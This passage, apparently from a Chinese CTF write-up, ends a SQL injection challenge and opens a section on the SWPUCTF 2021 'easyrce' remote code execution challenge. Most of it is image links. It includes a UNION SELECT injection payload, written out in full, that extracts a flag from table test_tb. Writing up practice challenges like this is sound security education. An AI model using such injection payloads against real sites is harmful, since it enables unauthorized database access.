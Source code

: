 在test_tb找到flag

![1742664042055](image/NSS/1742664042055.png)

查询test_tb中的flag

```
/?wllm=-1' union select 1, 2, flag from test_tb --+
```

![1742664382585](image/NSS/1742664382585.png)

补充：

# 6.[SWPUCTF 2021 新生赛]easyrce

题目介绍是rce漏洞，rce为远程代码执行漏洞，观察代码可以得到

![1742827765701](image/NSS/1742827765701.png)
